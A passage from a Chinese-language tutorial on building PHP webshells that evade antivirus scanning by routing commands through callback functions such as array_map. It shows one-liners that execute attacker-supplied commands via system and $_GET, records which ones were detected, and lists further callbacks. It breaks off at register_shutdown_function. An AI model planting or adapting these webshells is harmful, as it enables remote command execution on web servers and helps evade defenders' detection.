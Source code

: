 
## 1# 回调类型函数

### 1.0 Tips

在PHP的WebSehll免杀测试过程中，使用回调函数可以发现查杀引擎对函数和函数的参数是否有对应的敏感性

```php
array_map('system', array('whoami'));        //被查杀
array_map($_GET['a'], array('whoami'));      //被查杀
array_map('var_dump', array('whoami'));      //未被查杀
array_map('system', array($_GET['a']));      //被查杀
```

这里在列举一些回调函数，感兴趣可以自行查找：

```php
array_filter() 
array_walk()  
array_map()
array_reduce()
array_walk_recursive()
call_user_func_array()
call_user_func()
filter_var() 
filter_var_array() 
registregister_shutdown_function()
register_tick_function()
forward_static_call_array()
uasort() 
uksort() 
```

### 1.1 array_map()

**`array_map()` 函数将用户自定义函数作用到数组中的每个值上，并返回用户自定义函数作用后的带有新的值的数组**

Demo：将函数作用到数组中的每个值上，每个值都乘以本身，并返回带有新的值的数组：

```php
function myfunction($v)
{
return($v*$v);
}
 
$a=array(1,2,3,4,5);    //array(1,4,9,16,25)
print_r(array_map("myfunction",$a));
```

### 1.2 register_shutdown_function()

**`register_shutdown_function()` 函数是来注册一个会在PHP中止时执行的函数**

PHP中止的情况有三种：
